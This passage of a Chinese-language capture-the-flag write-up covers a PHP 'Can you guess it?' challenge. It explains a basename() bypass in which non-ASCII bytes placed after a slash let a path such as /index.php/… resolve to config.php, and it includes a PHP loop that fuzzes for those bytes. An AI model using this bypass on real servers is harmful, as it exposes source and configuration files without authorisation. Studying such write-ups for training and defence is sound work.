 ```php
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

考察 basename 的绕过, 源码后面的 hash_equals 应该没有办法绕过 (障眼法?)

参考文章 [https://www.cnblogs.com/yesec/p/15429527.html](https://www.cnblogs.com/yesec/p/15429527.html)

>With the default locale setting "C", basename() drops non-ASCII-chars at the beginning of a filename.
>
>在使用默认语言环境设置时，basename() 会删除文件名开头的非 ASCII 字符。

测试后发现非 ASCII 字符必须要加在 `/` 的后面, 例如

```
/index.php/NON_ASCII
/index.php/NON_ASCIIindex.php
```

fuzz 一下非 ASCII 字符

```php
<?php
for($i=0;$i<255;$i++){
  $filename = 'config.php/'.chr($i);
  if (basename($filename) === 'config.php'){
    echo urlencode(chr($i));
    echo "<br/>";
  }
}
?>
```
